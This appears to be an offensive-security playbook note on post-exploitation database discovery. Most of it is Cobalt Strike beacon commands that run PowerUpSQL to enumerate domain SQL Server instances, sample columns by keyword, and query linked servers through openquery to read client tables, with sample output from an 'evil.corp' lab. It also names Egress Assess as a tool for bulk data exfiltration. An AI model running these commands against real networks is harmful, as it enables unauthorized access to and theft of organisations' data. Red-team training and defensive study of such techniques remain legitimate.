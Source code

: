 # Identify Databases
[[Tools/PowerUpSQL]] can be used with the cmdlet `Get-SQLColumnSampleDataThreaded` in order to search one or more instances for databases that contain particular keywords in the column names.

```beacon
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "project" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column      Sample         
--------                     -------- ------      ------         
srv1.edu.evil.corp,1433 master   ProjectName Build Can       
srv1.edu.evil.corp,1433 master   ProjectName Fresh Boat     
srv1.edu.evil.corp,1433 master   ProjectName Fine Apple
```
Traversing is not possible! It only searches the available instances.

To search over the links use `Get-SQLQuery`.
```beacon
beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_edu      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          MSreplication_options BASE TABLE

beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select column_name from master.information_schema.columns')"

column_name
-----------
City
Name
Car
Dog

beacon> powershell Get-SQLQuery -Instance "srv1.edu.evil.corp,1433" -Query "select * from openquery(""sql1.evil.corp"", 'select top 5 City from master.dbo.VIPClients')"

City  
---------  
Heidelberg
Mannheim
Frankfurt
```

[Egress Assess](https://github.com/FortyNorthSecurity/Egress-Assess) can be used to exfiltrate lots of data at once


## Tools
########
########


```meta
ttp: T1000
requirements: 
results: database
description: Identify databases within the network
```